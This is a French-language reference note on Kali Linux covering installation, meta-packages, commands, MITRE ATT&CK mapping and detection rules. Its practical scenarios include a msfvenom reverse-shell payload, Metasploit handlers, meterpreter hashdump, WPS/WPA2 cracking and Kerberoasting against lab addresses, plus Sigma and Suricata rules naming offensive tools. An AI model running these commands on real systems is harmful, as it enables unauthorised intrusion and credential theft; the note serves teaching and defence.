

# 🐉 Kali Linux — Le couteau suisse du pentest Debian

> [!info] **En 1 phrase**
> Kali Linux est la distribution offensive de référence, basée sur Debian, embarquant plus de 600 outils de pentest, forensics et reverse engineering dans un système rolling release.

---

## 🧾 Overview

| Champ | Valeur |
|---|---|
| Nom complet | Kali Linux |
| Description | Distribution offensive Debian rolling release avec 600+ outils de pentest, forensics, RE, Wi-Fi, web, exploitation |
| Catégorie | 🐧 Distributions & Lab |
| Sous-catégorie | Distribution offensive (Kali-Pentesting-Platform) |
| Fonction principale | Plateforme de test d'intrusion : reconnaissance, exploitation, post-exploitation, forensics, OSINT |
| Type d'outil | Distribution Linux complète (CLI + GUI) |
| Licence | Open source : noyau Linux sous GPLv2, outils sous GPL/BSD/MIT/Apache |
| Open source / propriétaire | Open source (code source public, images binaires gratuites) |
| Langage(s) | Python, C, C++, Ruby, Go, Java, Bash (écosystème des outils embarqués) |
| Développeur / organisation | OffSec (Offensive Security) |
| Projet officiel | Kali Linux Project (successeur de BackTrack Linux) |
| Dépôt officiel | https://gitlab.com/kalilinux (paquets : http://http.kali.org) |
| Documentation officielle | https://www.kali.org/docs/ |
| Date de création | 13 mars 2013 (successeur de BackTrack, 2006) |
| État du projet | actif |
| Dernière version connue | Kali 2026.2 (29 juin 2026) — kernel 6.19, Xfce 4.20.7 |
| Systèmes compatibles | x86_64, ARM (ARMEL, ARMHF, ARM64), WSL, cloud (EC2, Azure, GCP), mobiles (NetHunter) |

> [!note] Pour vérifier / compléter
> Versions intermédiaires : Kali 2026.1 (24 mars 2026, mode « BackTrack » via `kali-undercover --backtrack`), Kali 2025.4 (12 déc. 2025, Wayland par défaut pour GNOME). Le cycle est rolling : 4 point-releases par an environ.

---

## 🎯 Concept

Kali Linux est la distribution offensive de référence, développée par **Offensive Security** (OffSec) et héritière de **BackTrack Linux** (2006-2013). Contrairement à une distro de bureau, elle est pensée comme une **plateforme d'armes de test d'intrusion** : chaque outil est choisi, configuré et testé pour fonctionner immédiatement après installation. Le système est en **rolling release** : les paquets suivent Debian Testing et sont mis à jour en continu avec les derniers outils, exploits et noyaux.

Son principal atout est son **catalogue de 600+ outils** organisé en **méta-paquets** (`kali-tools-*`) : plutôt que d'installer 600 outils inutiles, on installe les familles dont on a besoin (`kali-tools-web`, `kali-tools-wireless`, `kali-tools-exploitation`…). Kali est volontairement livrée en **root par défaut** (compte `root`/`kali` sur les anciennes images, compte `kali` avec sudo sur les versions récentes), ce qui la rend immédiatement opérationnelle mais exige de la prudence sur un réseau exposé.

Kali se décline en plusieurs images : **Installer** (installation disque), **Live** (démarrage sans installation), **NetInstaller** (installation réseau minimale), **VM préconfigurées** (VMware, VirtualBox, Hyper-V, QEMU), **WSL**, **cloud** (AWS, Azure, GCP) et **NetHunter** pour Android. En lab (THM, HTB, HackTheBox, VulnHub), Kali est typiquement la machine d'attaque dans un réseau NAT/Host-Only face à des cibles dédiées.



---

## 🧠 Concepts fondamentaux

| Concept | Explication |
|---|---|
| Rolling release | Les paquets suivent en continu les mises à jour de Debian Testing ; pas de « version finale » figée, `apt full-upgrade` apporte l'état courant |
| Base Debian | Kali est un dérivé de Debian Testing : gestionnaire de paquets `apt`/`dpkg`, format `.deb`, compatibilité avec les dépôts Debian |
| Méta-paquets | Groupes logiques d'outils (`kali-tools-*`) : web, wireless, exploitation, forensics, crypto, fuzzing… |
| Compte root / kali | Images récentes : utilisateur `kali` avec sudo ; images plus anciennes : `root` avec mot de passe `kali` |
| Branches | `kali-rolling` (défaut), `kali-dev`, `kali-last-snapshot` ; les images stables sont des snapshots de `kali-rolling` |
| Environnements de bureau | Xfce (défaut), GNOME, KDE Plasma, MATE, LXDE, i3 ; tous dérivés de la même base |
| Architectures | amd64, ARMEL, ARMHF, ARM64 (Raspberry Pi, Pinebook, Android via NetHunter) |
| Espace disque | Image installer ~ 4 Go ; installation complète (`kali-linux-everything`) peut dépasser 20 Go + dépendances |
| Wordlists | Wordlists préinstallées dans `/usr/share/wordlists/` (rockyou.txt.gz, dirb, SecLists partiellement) |
| Kali-Undercover | Script qui transforme le bureau Kali en faux bureau Windows pour les opérations discrètes ; mode BackTrack depuis 2026.1 |

---

## 🛠️ Installation

### Télécharger et vérifier l'image

```bash
# 1. Télécharger l'ISO officielle (Installer, Live ou NetInstaller)
#    https://www.kali.org/get-kali/
# 2. Vérifier la checksum SHA256 de l'image
#    Get-FileHash -Algorithm SHA256 .\kali-linux-2026.2-installer-amd64.iso   # PowerShell
#    sha256sum kali-linux-2026.2-installer-amd64.iso                          # Linux
```

### Graver sur USB (Linux)

```bash
sudo dd if=kali-linux-2026.2-installer-amd64.iso of=/dev/sdX bs=4M status=progress
sync
# Windows : Rufus ou BalenaEtcher (mode DD/ISO)
```

### Machine virtuelle

```bash
# Importer les images officielles VMware/VirtualBox, ou monter l'ISO comme lecteur virtuel
# Ressources conseillées : 4 Go de RAM, 2 CPU, 60 Go de disque, réseau NAT ou Host-Only
```

### WSL et Docker

```bash
# WSL (sans interface graphique)
wsl --install -d kali-linux
# Docker
docker pull kalilinux/kali-rolling
docker run -it --rm kalilinux/kali-rolling /bin/bash
```

### Après installation

```bash
sudo apt update && sudo apt full-upgrade -y
sudo apt install kali-tools-top10   # ou un méta-paquet ciblé
```

> [!warning] ⚠️ Prérequis & problèmes potentiels
> - L'image **Installer** ne contient que quelques outils : installer ensuite les méta-paquets souhaités.
> - En VM, installer **open-vm-tools** ou **virtualbox-guest-utils** pour le presse-papiers et la résolution d'écran.
> - `kali-linux-everything` est très lourd : privilégier les méta-paquets ciblés (`kali-tools-*`).

---

## ⚙️ Configuration

Kali se configure comme Debian : fichiers dans `/etc`, paquets via `apt`. Points spécifiques à Kali :

| Paramètre | Rôle | Valeur possible | Impact | Exemple |
|---|---|---|---|---|
| `/etc/os-release` | Identification de la version | `VERSION="2026.2"`, `VERSION_CODENAME="kali-rolling"` | Diagnostic de version | `grep VERSION /etc/os-release` |
| `/etc/apt/sources.list` | Dépôts APT | `deb http://http.kali.org/kali kali-rolling main non-free contrib` | Accès aux paquets Kali | `cat /etc/apt/sources.list` |
| Compte utilisateur | Session par défaut | `kali` / `kali` (à changer !) | Accès au système | `sudo passwd kali` |
| `kali-tools-list` | Liste des méta-paquets | Tous les `kali-tools-*` | Choix des familles d'outils | `kali-tools-list` |
| Kernel / headers | Compilation modules (aircrack-ng) | `linux-headers-amd64` | Compilation de drivers Wi-Fi | `sudo apt install linux-headers-amd64` |
| Wayland | Serveur d'affichage GNOME/KDE | X11 (Xfce) ou Wayland | Compatibilité des outils GUI | `cat $XDG_SESSION_TYPE` |

---

## 🏗️ Architecture interne

Kali est un **dérivé Debian** : gestion de paquets `dpkg`/`apt`, système d'init `systemd`, structure `/usr`, `/etc`, `/var`. Les outils sont répartis dans des **méta-paquets** logiques définis par le projet :

- **`kali-linux-headless`** — outils sans interface graphique (serveurs, WSL).
- **`kali-linux-top10`** — les 10 outils les plus utilisés (nmap, metasploit, burpsuite, john, hashcat…).
- **`kali-tools-web`**, **`kali-tools-wireless`**, **`kali-tools-exploitation`**, **`kali-tools-forensics`**, **`kali-tools-reverse-engineering`**, **`kali-tools-crypto-stego`**, **`kali-tools-fuzzing`**, **`kali-tools-sniffing-spoofing`**, **`kali-tools-post-exploitation`**, **`kali-tools-social-engineering`**…

Le paquet `kali-meta` (ou `kali-tools-*`) installe un ensemble de dépendances : l'arborescence se construit donc par **résolution de dépendances apt**, pas par un monolithe. Les sources des paquets sont maintenues dans des dépôts GitLab (`kalilinux`), et le build produit des miroirs apt.

Au niveau système : noyau **6.19** (2026.2), bureau **Xfce 4.20.7** par défaut, outils GNU usuels, `systemd` comme init, gestion utilisateur via `sudo`. Le trafic et les processus restent standard Linux — ce qui permet à l'analyste de conserver les réflexes Debian.

---

## ⌨️ Commandes

### Commandes principales

```bash
sudo apt update && sudo apt full-upgrade -y   # mise à jour rolling
sudo apt install kali-linux-top10             # méta-paquet top 10
sudo apt install kali-linux-headless          # outils sans GUI
kali-tools-list                               # lister les méta-paquets
```

| Commande | Objectif | Résultat attendu |
|---|---|---|
| `sudo apt update` | Rafraîchir les index des dépôts | Dépôts synchronisés |
| `sudo apt full-upgrade` | Mise à jour complète (dont les paquets qui changent de dépendances) | Système à jour |
| `sudo apt install kali-linux-top10` | Installer les 10 outils essentiels | nmap, metasploit, burpsuite, john, hashcat… |
| `sudo apt install kali-tools-web` | Famille web (sqlmap, gobuster, nikto, burp…) | Catalogue web complet |
| `kali-tools-list` | Lister les méta-paquets disponibles | Liste `kali-tools-*` |
| `sudo apt search <mot>` | Chercher un paquet | Liste de paquets |
| `sudo apt remove --purge <paquet>` | Désinstaller proprement | Paquet retiré |
| `cat /etc/os-release` | Vérifier la version de Kali | `VERSION="2026.2"` |

### Commandes avancées

```bash
# Installation par familles ciblées
sudo apt install kali-tools-crypto-stego kali-tools-fuzzing kali-tools-web
# Wordlists fournies avec la distro
ls /usr/share/wordlists/
sudo gzip -dk /usr/share/wordlists/rockyou.txt.gz
```

---

## 🎚️ Options et flags

| Option | Description | Exemple | Niveau |
|---|---|---|---|
| `apt update` | Synchronise les index | `sudo apt update` | Basic |
| `apt full-upgrade` | Mise à jour avec résolution des dépendances | `sudo apt full-upgrade -y` | Basic |
| `apt install <méta-paquet>` | Installe une famille d'outils | `sudo apt install kali-tools-web` | Basic |
| `apt search` | Recherche dans les dépôts | `apt search wpscan` | Basic |
| `kali-tools-list` | Liste des méta-paquets | `kali-tools-list` | Basic |
| `-y` | Répond oui à toutes les questions | `sudo apt install -y nmap` | Basic |
| `--purge` | Supprime aussi les fichiers de config | `sudo apt remove --purge postgresql` | Intermediate |
| `autoremove` | Purge les dépendances orphelines | `sudo apt autoremove` | Intermediate |
| `-t <release>` | Installe depuis une branche précise | `sudo apt install -t kali-last-snapshot <paquet>` | Advanced |
| `--download-only` | Télécharge sans installer | `sudo apt install --download-only nmap` | Advanced |
| `apt-mark hold` | Bloque un paquet à une version | `sudo apt-mark hold postgresql` | Expert |

> [!tip] Options les plus utiles au quotidien
> `apt update` + `apt full-upgrade` (réflexe quotidien), `kali-tools-list` (choisir ses familles), `apt install kali-linux-top10` (départ rapide), `apt search` (trouver un outil avant `which`).

---

## 🧪 Exemples pratiques

### Beginner

```bash
# Mettre à jour le système
sudo apt update && sudo apt full-upgrade -y
# Vérifier la version
cat /etc/os-release
# Scanner une cible de lab
sudo nmap -sV -sC 10.10.20.15
```

### Intermediate

```bash
# Installer les familles web + exploitation
sudo apt install kali-tools-web kali-tools-exploitation
# Énumération web
gobuster dir -u http://10.10.20.15 -w /usr/share/wordlists/dirb/common.txt -x php,html
searchsploit apache 2.4
```

### Advanced

```bash
# Déployer un handler Metasploit + payload
msfconsole -q
msf6 > use exploit/multi/handler
msf6 > set payload linux/x64/meterpreter/reverse_tcp
msf6 > set LHOST 10.10.20.15
msf6 > run
```

### Expert

```bash
# Lab AD complet : installer les outils Windows et Kerberoaster
sudo apt install kali-tools-windows-resources
GetUserSPNs.py lab.local/user:pass -dc-ip 10.10.20.15 -request
```

---

## 🧪 Workflow complet (scénario pas à pas)

1. **Préparer l'environnement** — mettre à jour et vérifier le réseau.
   ```bash
   sudo apt update && sudo apt full-upgrade -y
   ip a
   ```
2. **Reconnaissance réseau** — découvrir les hôtes et scanner les ports.
   ```bash
   sudo nmap -sP 10.10.20.0/24
   sudo nmap -sV -sC -O -p- 10.10.20.15
   ```
3. **Énumération web** — repérer les répertoires et vulnérabilités.
   ```bash
   gobuster dir -u http://10.10.20.15 -w /usr/share/wordlists/dirb/common.txt
   nikto -h http://10.10.20.15
   ```
4. **Exploitation** — lancer un exploit documenté.
   ```bash
   msfconsole -q
   msf6 > use exploit/multi/handler
   msf6 > set payload windows/x64/meterpreter/reverse_tcp
   msf6 > set LHOST 10.10.20.15
   msf6 > run
   ```
5. **Post-exploitation** — collecter les identifiants et pivoter.
   ```bash
   meterpreter > hashdump
   meterpreter > run post/multi/gather/wifi_creds
   ```
6. **Rapport** — exporter les résultats.

---

## 🎬 Scénarios avancés

### Scénario 1 : Attaque Wi-Fi WPA2 via WPS puis crack du handshake

```bash
sudo airmon-ng check kill
sudo airmon-ng start wlan0
sudo airodump-ng wlan0mon                       # repérer BSSID et canal
sudo reaver -i wlan0mon -b <BSSID> -vv          # attaque PIN WPS
sudo airodump-ng -c <CH> --bssid <BSSID> -w cap wlan0mon
sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt cap-01.cap
```

### Scénario 2 : Reverse shell avec msfvenom

```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.20.15 LPORT=4444 -f elf > shell.elf
chmod +x shell.elf
# Transférer shell.elf vers la cible ; côté Kali :
msfconsole -q
msf6 > use exploit/multi/handler
msf6 > set payload linux/x64/meterpreter/reverse_tcp
msf6 > set LHOST 10.10.20.15
msf6 > exploit
meterpreter > sysinfo
```

---

## 🛡️ Cybersecurity use cases

| Phase | Utilisation |
|---|---|
| Reconnaissance | Nmap, masscan, theHarvester, Maltego, Shodan CLI |
| Énumération | gobuster, dirsearch, enum4linux, dnsrecon, subfinder |
| Vulnérabilité | searchsploit, nuclei, nikto, OpenVAS, sqlmap |
| Exploitation | Metasploit, sqlmap, SET, BeEF, msfvenom, Evil-WinRM |
| Post-exploitation | Mimikatz, Impacket, bloodhound, PowerShell Empire, Ligolo-ng |
| Cracking | hashcat, John the Ripper, crunch, CeWL, SecLists |
| Wi-Fi | aircrack-ng, wifite, Kismet, mdk4, Reaver, hcxdumptool |
| Forensics | Autopsy, Volatility, binwalk, strings, testdisk |
| Social engineering | SET, GoPhish, King-Phisher, Wifiphisher |
| OSINT | Maltego, theHarvester, spiderfoot, Recon-ng |

---

## 🎯 MITRE ATT&CK

| Tactique | Technique / Sub-technique | ID | Raison | Détection | Mitigation |
|---|---|---|---|---|---|
| Reconnaissance | Active Scanning : Scanning IP Blocks | T1595.001 | Nmap/masscan préinstallés sondent des plages d'IP | Monitoring des connexions répétées (DET0817) | Firewall, rate-limiting |
| Discovery | Network Service Discovery | T1046 | Scan de ports et services via Nmap | SYN rates anormaux, IDS/IPS | Segmentation, rate-limiting |
| Execution | Command and Scripting Interpreter : Unix Shell | T1059.004 | Bash est le shell par défaut des payloads Kali | Supervision des lignes de commande (auditd, EDR) | Logging commandes, hardening |
| Execution | Command and Scripting Interpreter : PowerShell | T1059.001 | PowerShell Empire, scripts PS1 fournis par Kali | Événements 4104/4688, AMSI | Constrained Language Mode |
| Credential Access | OS Credential Dumping : LSASS Memory | T1003.001 | Mimikatz et les scripts associés sont embarqués | Accès anormaux à lsass, EDR | Credential Guard, LSA Protection |

> [!note] Ne renseigner que si l'association est réellement pertinente.
> Kali ne « fait » rien par lui-même : ces techniques sont *activées* par les outils qu'il embarque. La détection se fait sur les comportements réseau/processus, pas sur le simple nom de l'outil.

---

## 🛡️ Defensive Security

### Signes observables

| Indicateur | Détail |
|---|---|
| Scans TCP massifs sans suite | SYN rates élevés, window sizes fixes propres à Nmap |
| User-Agent `nmap.org` ou `sqlmap/` | Bannières HTTP révélatrices des outils Kali |
| Trafic airmon-ng / deauth | Tramés de désauthentification Wi-Fi en rafale |
| Connexions sortantes vers ports 4444/443 | Reverse shells Metasploit/meterpreter |
| Bruteforce SSH/web depuis une même IP | Tentatives répétées avec les wordlists de Kali (rockyou) |
| Exécution d'outils offensifs sur un poste | Processus `msfconsole`, `hashcat`, `aircrack-ng` (Sigma) |

### Règles de détection (Sigma / Suricata / Snort / YARA)

```yaml
# Sigma — Linux : exécution d'outils réseau offensifs
title: Kali Offensive Tooling Execution
id: aaa1c23d-7e5f-4d2b-9b3a-5c1e2f3a4b5c
status: test
logsource:
    category: process_creation
    product: linux
detection:
    selection:
        Image|endswith:
            - '/msfconsole'
            - '/msfvenom'
            - '/aircrack-ng'
            - '/hashcat'
            - '/sqlmap'
    condition: selection
falsepositives:
    - Authorized penetration testing
level: medium
```

```bash
# Suricata/Snort — scan Nmap et reverse shell
alert tcp any any -> any any (msg:"ET SCAN NMAP -sS window 1024"; flags:S; window:1024; threshold: type limit, track by_src, seconds 60, count 5; sid:2000001; rev:1;)
```

---

## 🤖 Automatisation

```bash
# Bash — scan d'un /24 et rapport par hôte
for ip in $(seq 1 254); do
    sudo nmap -sC -sV -Pn -oN "scan_10.10.20.$ip.txt" "10.10.20.$ip"
done
```

```python
# Python — provisionnement d'outils Kali via apt
import subprocess
PACKAGES = ["kali-linux-top10", "kali-tools-web", "kali-tools-wireless"]
for pkg in PACKAGES:
    subprocess.run(["sudo", "apt", "install", "-y", pkg], check=False)
```

---

## 📤 Output et parsing

Les sorties proviennent des outils eux-mêmes : Kali fournit surtout les **formats standards** et les **wordlists**.

```bash
# Nmap : sortie XML pour rapport
sudo nmap -sC -sV -oX scan.xml 10.10.20.15
xsltproc /usr/share/nmap/nmap.xsl scan.xml -o rapport.html
# Greppable
sudo nmap -oG scan.gnmap 10.10.20.15
grep "Ports:" scan.gnmap | awk '{print $2, $3}'
```

```python
# Python — parsing XML Nmap (stdlib)
import xml.etree.ElementTree as ET
tree = ET.parse('scan.xml')
for host in tree.getroot().findall('host'):
    ip = host.find('address').get('addr')
    for port in host.findall('.//port'):
        if port.find('state').get('state') == 'open':
            print(ip, port.get('portid'))
```

> [!note] À vérifier
> Kali ne dispose pas d'un format de sortie unifié : chaque outil gère le sien. Pour un pipeline, privilégier les sorties JSON (`nuclei -json`, `ffuf -json`, `nmap -oX`).
---

## 🔗 Intégrations

- [[Tools|🧰 Outils]] global
- [[Outil - Nmap]] — scan et énumération
- [[Outil - Metasploit]] — exploitation (`msfconsole` préinstallé)
- [[Outil - Burp Suite]] — proxy web (édition communautaire préinstallée)
- [[Outil - aircrack-ng]] / [[Outil - Wifite]] / [[Outil - Reaver]] — attaques Wi-Fi
- [[Outil - hashcat]] / [[Outil - John the Ripper]] — cracking
- [[Outil - Impacket]] / [[Outil - BloodHound]] / [[Outil - Mimikatz]] — post-exploitation Windows
- [[Outil - Ghidra]] / [[Outil - radare2]] — reverse engineering
- [[Outil - Volatility]] / [[Outil - Autopsy]] — forensics
- [[Outil - sqlmap]] / [[Outil - gobuster]] / [[Outil - nikto]] — web
- [[Outil - theHarvester]] / [[Outil - Maltego]] — OSINT

```text
Nmap → Metasploit → Mimikatz → BloodHound → rapport
```

---

## 🔄 Alternatives

| Outil | Avantages | Inconvénients | Cas d'usage |
|---|---|---|---|
| [[Outil - Parrot OS]] | 800+ outils + anonymat (Anonsurf), léger (MATE), bon pour OSINT | Écosystème plus petit que Kali | Pentest + vie privée au quotidien |
| [[Outil - BlackArch]] | 2865+ outils, rolling Arch, ultra-personnalisable | Pas de GUI clé en main, niveau Arch requis | Pentesters expérimentés |
| [[Outil - Commando VM]] | Outils offensifs Windows natifs (AD, PowerShell) | Lourd, Windows requis | Pentest d'infrastructures Windows |
| [[Outil - Tails OS]] | Anonymat total, amnésie, Tor natif | Pas un arsenal offensif | Recherches OSINT anonymes |
| Debian + outils manuels | Léger, stable, maîtrise des dépendances | Configuration manuelle de chaque outil | Environnements de production |

> **Quand utiliser Kali plutôt que Parrot OS ?** Pour un engagement offensif classique (lab THM/HTB, examens certifiants comme l'OSCP), Kali reste la référence documentée et supportée par OffSec. Parrot est à privilégier si on veut un système hybride (bureau durci + outils) ou des besoins d'anonymat intégrés.

---

## ⚡ Performance

- **Installation minimale** : ~4 Go d'espace disque ; **kali-linux-everything** : 20+ Go (compter ~1-2 h selon le réseau).
- **RAM** : 2 Go suffisent pour un usage basique, 4 Go pour Metasploit + navigation simultanée, 8 Go conseillés en VM de lab.
- **Bureau** : Xfce est léger (conçu pour les faibles ressources) ; GNOME/KDE consomment davantage.
- **Disque** : privilégier le SSD pour les VM ; les images VM prêtes à l'emploi sont compressées (~3 Go).

---

## 🛠️ Troubleshooting

### Common problems

#### Problème : « E: Could not get lock /var/lib/dpkg/lock »

- **Cause** : une autre instance d'apt est en cours (ou une installation interrompue).
- **Solution** : attendre la fin du processus, ou supprimer le lock si aucun `apt` ne tourne.
- **Vérification** : `sudo lsof /var/lib/dpkg/lock ; sudo dpkg --configure -a`.

#### Problème : un outil « n'existe pas » alors qu'il devrait être présent

- **Cause** : méta-paquet non installé (l'image Installer est minimale).
- **Solution** : `sudo apt update && sudo apt install <outil>` ou installer la famille `kali-tools-*`.
- **Vérification** : `which <outil>`.

#### Problème : le Wi-Fi ne passe pas en mode moniteur

- **Cause** : driver kernel absent ou verrouillé par NetworkManager.
- **Solution** : `sudo airmon-ng check kill`, installer `linux-headers-amd64` et recompiler le driver.
- **Vérification** : `iwconfig` affiche `Mode:Monitor`.

#### Problème : Kali ne démarre plus après un full-upgrade en VM

- **Cause** : mise à jour kernel sans réinstallation des guest tools.
- **Solution** : reinstaller `open-vm-tools`/`virtualbox-guest-utils`, voire revenir au noyau précédent via GRUB.
- **Vérification** : `uname -r` correspond à la version attendue.

---

## 🔐 Sécurité de l'outil

- **Root par défaut** : Kali est conçue pour tourner en root/sudo — n'exposez jamais la machine sur un réseau non maîtrisé sans changer les identifiants par défaut (`kali`/`kali`).
- **Identifiants faibles** : les images VM officielles gardent des mots de passe connus ; les changer immédiatement (Docker aussi : `root`/`toor`).
- **Pas de télémétrie** : Kali ne collecte pas de données utilisateur, mais les outils offensifs sont détectables par leur bruit réseau.
- **Mise à jour régulière** : rolling release = correctifs de sécurité rapides mais aussi paquets cassés ; utiliser les snapshots (`kali-last-snapshot`) pour la stabilité.
- **Usage légal** : uniquement sur des cibles autorisées (cadre contractuel ou lab isolé).

---

## ⚠️ Limitations

- **Pas une distro de bureau** : rolling release, privilèges root, paquets parfois expérimentaux — mauvaise idée en production.
- **Mémoire disque** : `kali-linux-everything` est volumineux et long à installer.
- **Détectabilité** : les signatures des outils Kali sont connues des EDR/IDS (User-Agents, window sizes, patterns).
- **Wi-Fi** : dépend entièrement du matériel (drivers, chipset) ; le mode moniteur exige des cartes compatibles.
- **Pas exhaustif** : certains outils propriétaires (Burp Suite Pro, IDA) ne sont pas dans les dépôts.

---

## 📋 Cheatsheet

```bash
# Mise à jour
sudo apt update && sudo apt full-upgrade -y

# Méta-paquets
kali-tools-list
sudo apt install kali-linux-top10
sudo apt install kali-tools-web kali-tools-wireless kali-tools-exploitation

# Version
cat /etc/os-release
uname -r

# Wordlists
ls /usr/share/wordlists/
sudo gzip -dk /usr/share/wordlists/rockyou.txt.gz

# Outils courants
sudo nmap -sV -sC 10.10.20.15
msfconsole -q
gobuster dir -u http://10.10.20.15 -w /usr/share/wordlists/dirb/common.txt
searchsploit apache 2.4
```

---

## ⚡ Quick reference

| | |
|---|---|
| **À quoi sert-il ?** | Distribution offensive Debian : 600+ outils de pentest, forensics et RE en rolling release |
| **Quand l'utiliser ?** | Machine d'attaque en lab (THM/HTB/OSCP), évaluations autorisées, études de sécurité |
| **Commande principale** | `sudo apt update && sudo apt full-upgrade -y` puis `sudo apt install kali-linux-top10` |
| **Alternative principale** | [[Outil - Parrot OS]] · [[Outil - BlackArch]] · [[Outil - Commando VM]] |
| **Concepts importants** | Rolling release, méta-paquets `kali-tools-*`, base Debian, root/sudo, wordlists |
| **Liens associés** | [[Outil - Metasploit]] · [[Outil - Nmap]] · [[Outil - Burp Suite]] · [[Outil - hashcat]] |

---

## 🔍 Détection & Défense

| Signe | Défense |
|---|---|
| Scans de ports à haute fréquence (SYN rates, window sizes Nmap) | `fail2ban`, `psad`, logs IDS/Suricata, rate-limiting iptables |
| User-Agents et bannières d'outils (nmap.org, sqlmap/) | WAF (ModSecurity), blocage des User-Agents connus |
| Deauth Wi-Fi / mode moniteur | WPA3/802.1X, désactivation WPS, WIDS, segmentation VLAN |
| Connexions sortantes C2 (ports 4444/443) | Egress filtering, journalisation `lsof -i`, blocage proxy |
| Bruteforce SSH avec wordlists (rockyou) | `MaxAuthTries 3`, fail2ban, clés SSH, `sshguard` |

---

## ⚠️ Tips & Pièges

> [!tip] 💡 **Tips**
> - Utilise **Kali en VM en NAT/Host-Only** pour le lab, jamais Kali en machine principale sur des réseaux non autorisés.
> - Installe par **méta-paquets ciblés** (`kali-tools-*`) plutôt que `kali-linux-everything` : système plus léger et plus propre.
> - Fais des **snapshots de VM** avant chaque exploitation risquée pour un retour rapide.
> - Change immédiatement les identifiants par défaut (`kali`/`kali`) sur toute machine exposée.

> [!warning] ⚠️ **Pièges**
> - **Ne pas utiliser Kali comme distro de bureau quotidienne** : rolling release = casses possibles ; préférer Debian stable + outils dédiés.
> - `sudo apt upgrade` seul ne suffit pas toujours : utiliser `full-upgrade` pour résoudre les changements de dépendances.
> - Les images officielles gardent des **identifiants connus** : une machine exposée sera compromise en quelques minutes.

---

## 📚 References

### Official

- Site officiel : https://www.kali.org
- Documentation : https://www.kali.org/docs/
- Historique des releases : https://www.kali.org/releases/
- Blog des releases : https://www.kali.org/blog/
- Dépôts GitLab : https://gitlab.com/kalilinux
- Téléchargements : https://www.kali.org/get-kali/

### Security references

- MITRE ATT&CK T1046 — Network Service Discovery : https://attack.mitre.org/techniques/T1046/
- MITRE ATT&CK T1595 — Active Scanning : https://attack.mitre.org/techniques/T1595/
- MITRE ATT&CK T1059.004 — Unix Shell : https://attack.mitre.org/techniques/T1059/004/
- SIGMA — Linux utilities execution : https://github.com/SigmaHQ/sigma/tree/master/rules/linux

### Community

- Kali Linux Revealed (livre officiel OffSec) : https://kali.training/
- Blog OffSec : https://www.offsec.com/blog/

---

> [!info] 📚 **Sources**
> - https://www.kali.org/
> - https://www.kali.org/docs/

➡️ **Liens :** [[Tools|🧰 Outils]] · [[Outil - Metasploit|🛠️ Metasploit]] · [[Outil - Nmap|📡 Nmap]] · [[Outil - Parrot OS|🦜 Parrot OS]] · [[Outil - BlackArch|🖤 BlackArch]] · [[Outil - Commando VM|🖥️ Commando VM]] · [[Outil - Burp Suite|🕷️ Burp Suite]]
